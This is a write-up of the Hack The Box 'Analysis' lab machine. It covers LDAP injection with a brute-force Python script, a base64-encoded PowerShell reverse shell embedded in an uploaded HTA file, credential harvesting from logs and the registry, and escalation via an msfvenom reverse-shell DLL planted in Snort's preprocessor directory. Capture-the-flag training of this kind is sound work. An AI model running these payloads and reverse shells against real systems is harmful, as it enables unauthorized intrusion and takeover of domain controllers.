

# Analysis


Machine: [https://app.hackthebox.com/machines/Analysis](https://app.hackthebox.com/machines/Analysis)

Created by: [UVision](https://app.hackthebox.com/users/70653)

Difficulty: Hard

OS: Windows 

## Machine Info

Analysis is a hard-difficulty Windows machine, featuring various vulnerabilities, focused on web applications, Active Directory (AD) privileges and process manipulation. Initially, an LDAP Injection vulnerability provides us with credentials to authenticate on a protected web application. Through this application, access to the local system is obtained by gaining command execution through an HTA file upload. On the target system, credentials for another user are found in the web application's log files. Subsequently, by implementing an API Hook on `BCTextEncoder`, an encrypted password is decrypted and used to pivot to another user. Finally, by changing the password of an account that has `DCSync` rights against the domain, administrative access to the domain controller is obtained.

## Enumeration

### Nmap

```shell
labadmin@labmachine:~/analysis$ nmap -p- -sV -sC --min-rate 1000 -oN analysis-sv-sc-nmap.log 10.10.11.250
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-07 16:58 PDT
Nmap scan report for 10.10.11.250
Host is up (0.45s latency).
Not shown: 65506 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-08 00:00:02Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3306/tcp  open  mysql         MySQL (unauthorized)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
33060/tcp open  mysqlx?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49707/tcp open  unknown
49713/tcp open  unknown
52336/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94SVN%I=7%D=6/7%Time=66639F05%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\
SF:0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")
SF:%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Service Info: Host: DC-ANALYSIS; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-06-08T00:00:39
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 273.05 seconds
```

Nmap scan gives a hint that it is most likely a Windows machine. And considering these ports most likely a domain controller.

- 53/tcp    open  domain        Simple DNS Plus
- 88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-08 00:00:02Z)
- 389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)

The LDAP port also returns domain `analysis.htb`, so we add that to our `/etc/hosts`.

```shell
labadmin@labmachine:~/analysis$ sudo bash -c 'echo "10.10.11.250  analysis.htb" >> /etc/hosts'
```

Initial interesting ports we start to look at.

- 80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- 445/tcp   open  microsoft-ds?

### HTTP port 80

Navigating `http://analysis.htb` we come to a web site for some kind of cyber security service.


The response header tells us it is hosted by `Microsoft-IIS/10.0`.

```shell
HTTP/1.1 304 Not Modified
Accept-Ranges: bytes
ETag: "ddc152827db1d91:0"
Server: Microsoft-IIS/10.0
Date: Sat, 08 Jun 2024 00:25:00 GMT
```

We navigate around the page but don't really find anything interesting.

Running fuzz for subdomain brute force and we find us the subdomain `internal`.

```shell
labadmin@labmachine:~/analysis$ ffuf -u http://10.10.11.250 -H "Host: FUZZ.analysis.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.250
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.analysis.htb
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
________________________________________________

internal                [Status: 403, Size: 1268, Words: 74, Lines: 30, Duration: 417ms]
:: Progress: [4989/4989] :: Job [1/1] :: 69 req/sec :: Duration: [0:01:08] :: Errors: 0 ::
```

So we add that to `/etc/hosts` too.

```shell
10.10.11.250  analysis.htb  internal.analysis.htb
```

Navigating to `http://internal.analysis.htb` but we are not authorized to access it.


As next step we run a directory brute force on internal.

```shell
labadmin@labmachine:~/analysis$ feroxbuster -u http://internal.analysis.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -x php

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.3
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://internal.analysis.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.3
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET       29l       91w     1273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET       29l       93w     1284c http://internal.analysis.htb/
301      GET        2l       10w      170c http://internal.analysis.htb/users => http://internal.analysis.htb/users/
200      GET        1l        2w       17c http://internal.analysis.htb/users/list.php
301      GET        2l       10w      174c http://internal.analysis.htb/dashboard => 
[...OMITTEST...]
```

These seem to be the most interesting returns.

```shell
/users/list.php
/dashboard/upload.php
/dashboard/index.php
/dashboard/form.php
/dashboard/tickets.php
/dashboard/details.php
/dashboard/emergency.php
/employees/login.php
```

Navigating `http://internal.analysis.htb/employees/login.php` and we come to login page for employees.


We try common attacks such as common credentials and SQL injection. But no success.

Next we navigate to the other finding `http://internal.analysis.htb/users/list.php`.



We seem authorized to access this page but we need additional parameters. As next step we try to find parameters by fuzzing.

```shell
labadmin@labmachine:~/analysis$ ffuf -u http://internal.analysis.htb/users/list.php?FUZZ= -w /usr/share/wordlists/seclists/Discovery/Web-Content/api/api-endpoints-res.txt -ac

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://internal.analysis.htb/users/list.php?FUZZ=
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/api/api-endpoints-res.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

name                    [Status: 200, Size: 406, Words: 11, Lines: 1, Duration: 228ms]
:: Progress: [12334/12334] :: Job [1/1] :: 167 req/sec :: Duration: [0:04:13] :: Errors: 0 ::
```

We found the `name` parameter and adding it to the request we get a search result.


### LDAP Injection

Trying different name parameters we notice that the parameter seems to be a filter and that various usages with `*` will filter as wildcard.

This information together with the search result columns containing common LDAP attributes we assume this to be LDAP search.

As next step we will try LDAP injection.

The First Name in LDAP is commonly stored in the `givenName` attribute. And a search with the user and given name would look something similar.

`(&(cn=technician)(givenName=technician))`

And for `technician` above it will be `(&(cn=technician)(givenName=technician))`

And to not break the page we request as `http://internal.analysis.htb/users/list.php?name=technician)(givenName=tech*`.


Brute force description field.

```python
import requests
import string

def find_next_char(target, name, payload):
    for letter in  string.ascii_letters + string.digits + string.punctuation:
        if letter == "(" or letter == ")" or letter == "#" or letter == "&":
            continue
        payload = payload + letter
        url = f'http://{target}/users/list.php?name={name})(description={payload}*'
        r = requests.get(url, headers = {"Host": "internal.analysis.htb"})
        if "CONTACT_" not in r.text:
            print(f'Current payload: {payload}')
            return payload
        else:
            payload = payload[:-1]
    return payload

description = '9'
while True:
    description = find_next_char('analysis.htb', 'technician', description)
    if description[-2:] == "**":
        break
print('Description: ' + description[:-2])
```

```shell
labadmin@labmachine:~/analysis$ python3 ldapinjection.py
Current payload: 97
Current payload: 97N
Current payload: 97NT
Current payload: 97NTt
Current payload: 97NTtl
Current payload: 97NTtl*
Current payload: 97NTtl*4
Current payload: 97NTtl*4Q
Current payload: 97NTtl*4QP
Current payload: 97NTtl*4QP9
Current payload: 97NTtl*4QP96
Current payload: 97NTtl*4QP96B
Current payload: [...OMITTED...]
Current payload: [...OMITTED...]
Current payload: [...OMITTED...]
Description: [...OMITTED...]
```

With description coming back as a string looking as password and we try it on the login page `http://internal.analysis.htb/employees/login.php `with user technician and a crafted email as `technician@analysis.htb`.

And we got dashboard as technician.


## Foothold

Looking around we find the `SOC Report` page that looks interesting. 


It says every file that is uploaded will be executed in a sandbox.

Checking the tickets we find a ticket related to HTA. Obviously the environment should be able execute HTA files.


So as next step we try create a reverse shell HTA file, that connect reverse shell to local netcat listener.

First up we go to [https://www.revshells.com/](https://www.revshells.com/) and generate us a revers shell payload.

```shell
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMgA0ACIALAA5ADAAMAAwACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==
```

Start local listener.

```shell
labadmin@labmachine:~/analysis$ nc -lvnp 9000
Listening on 0.0.0.0 9000
```

Add in a HTA file that runs VBScript code to create a shell and call powershell.

```shell
labadmin@labmachine:~/analysis$ cat shell.hta
<!DOCTYPE html>
<html>
<body>
    <script type="text/vbscript">
        Dim shell
        Set shell = CreateObject("WScript.Shell")
        shell.Run "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA2AC4AMgA0ACIALAA5ADAAMAAwACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==", 0, False
    </script>
</body>
</html>
```

Uploading the script.


And we got reverse shell as svc_web.

```shell
labadmin@labmachine:~/analysis$ nc -lvnp 9000
Listening on 0.0.0.0 9000
Connection received on 10.10.11.250 58692
whoami
analysis\svc_web
PS C:\inetpub\internal\dashboard>
```

## Lateral Movement

We find a few users with a home directory and they will be our target.

```shell
labadmin@labmachine:~/analysis$ nc -lvnp 9000
Listening on 0.0.0.0 9000
Connection received on 10.10.11.250 58692
whoami
analysis\svc_web
PS C:\inetpub\internal\dashboard> net user

comptes d'utilisateurs de \\DC-ANALYSIS

-------------------------------------------------------------------------------
Administrateur           amanson                  badam
cwilliams                Invit?                   jangel
jdoe                     krbtgt                   lzen
soc_analyst              svc_web                  technician
webservice               wsmith
La commande s'est termin?e correctement.

PS C:\inetpub\internal\dashboard> dir C:\Users


    R?pertoire?: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/01/2024     10:33                Administrateur
d-----       05/01/2024     21:29                jdoe
d-r---       07/05/2023     21:44                Public
d-----       26/05/2023     11:02                soc_analyst
d-----       26/05/2023     14:20                webservice
d-----       23/05/2023     10:10                wsmith
```

Checking the logs for inetpub `C:\inetpub\logs\LogFiles`.

Searching for users above in the log files we find a log entry with jdoe that contains credentials.

```shell
PS C:\inetpub\logs\logfiles> findstr /S jdoe *
W3SVC2\u_ncsa1.log:???127.0.0.1 - - [07/Jun/2024:06:25:55 +0200] "GET /dashboard/alert_panel.php?auth=1&username=jdoe&password=[...OMITTED...]&alert=c2_malware_detected HTTP/1.1" 200 8924
```

Alternatively it can be found in WinLogon as well.

```shell
PS C:\inetpub\logs\logfiles> cd HKLM:
PS HKLM:\> cd "SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
PS HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon> Get-ItemProperty . | Select-Object DefaultDomainName, DefaultUserName, DefaultPassword

DefaultDomainName DefaultUserName DefaultPassword
----------------- --------------- ---------------
analysis.htb.     jdoe            [...OMITTED...]
```

Using the found credentials we login using WinRM and get the user flag.

```
labadmin@labmachine:~/analysis$ evil-winrm -i analysis.htb -u jdoe
Enter Password:

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

cat *Evil-WinRM* PS C:\Users\jdoe\Documents> cat ..\Desktop\user.txt
[...OMITTED...]
```

## Privilege Escalation

In root of C we find some interesting items.

```shell
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/12/2023  10:01 AM                inetpub
d-----        11/5/2022   8:14 PM                PerfLogs
d-----         5/8/2023  10:20 AM                PHP
d-----         7/9/2023  10:54 AM                private
d-r---       11/18/2023   9:56 AM                Program Files
d-----         5/8/2023  10:11 AM                Program Files (x86)
d-----         7/9/2023  10:57 AM                Snort
d-r---        5/26/2023   2:20 PM                Users
d-----        1/10/2024   3:52 PM                Windows
-a----         6/8/2024  11:09 AM         509186 snortlog.txt


*Evil-WinRM* PS C:\> dir private


    Directory: C:\private


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/26/2023   9:44 AM            576 encoded.txt
```

The [Snort](https://www.snort.org/) directory, snortlog.txt and the private directory containing encoded.txt.

Snort has the ability to [load dynamic modules](http://manual-snort-org.s3-website-us-east-1.amazonaws.com/node23.html) and the keyword dynamicpreprocessor is interesting.

```text
Tells snort to load the dynamic preprocessor shared library (if file is used) or all dynamic preprocessor shared libraries (if directory is used). Specify file, followed by the full or relative path to the shared library. Or specify directory, followed by the full or relative path to a directory of preprocessor shared libraries. (Same effect as -dynamic-preprocessor-lib or -dynamic-preprocessor-lib-dir options).
```

```shell
*Evil-WinRM* PS C:\snort\etc> findstr dynamicpreprocessor *
snort.conf:dynamicpreprocessor directory C:\Snort\lib\snort_dynamicpreprocessor
```

It can be found in `C:\Snort\lib\` with the permissions.

```shell
*Evil-WinRM* PS C:\Snort\lib> icacls snort_dynamicpreprocessor
snort_dynamicpreprocessor AUTORITE NT\SystŠme:(I)(OI)(CI)(F)
                          BUILTIN\Administrateurs:(I)(OI)(CI)(F)
                          BUILTIN\Utilisateurs:(I)(OI)(CI)(RX)
                          BUILTIN\Utilisateurs:(I)(CI)(AD)
                          BUILTIN\Utilisateurs:(I)(CI)(WD)
                          CREATEUR PROPRIETAIRE:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

```text
(I): Inherited
(OI): Object Inherit
(CI): Container Inherit
(RX): Read and Execute - Users can read and execute files within the folder.
(CI): Container Inherit
(AD): Add file - Users can create new files within the folder.
(WD): Write Data - Users can add data to files within the folder.
```

With the permission to write data to that directory, it should be able to generate a DLL that executes the next time Snort runs.

First we generate reverse shell payload DLL using msfvenom.

```shell
labadmin@labmachine:~/analysis$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -f dll -a x64 -o payload.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: payload.dll
```

Starting local listener.

```shell
labadmin@labmachine:~/analysis$ nc -lnvp 9001
Listening on 0.0.0.0 9001
```

Upload the DLL.

```shell
*Evil-WinRM* PS C:\Snort\lib\snort_dynamicpreprocessor> upload /home/labadmin/analysis/payload.dll

Info: Uploading /home/labadmin/analysis/payload.dll to C:\Snort\lib\snort_dynamicpreprocessor\payload.dll

Data: 12288 bytes of 12288 bytes copied
```

We now wait for snort to run and execute the DLL.

```shell
labadmin@labmachine:~/analysis$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.250 59017
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
analysis\administrateur
```
And we got shell for administrateur and we get the root flag.

```shell
c:\Users\Administrateur\Desktop>type root.txt
type root.txt
[...OMITTED...]
```
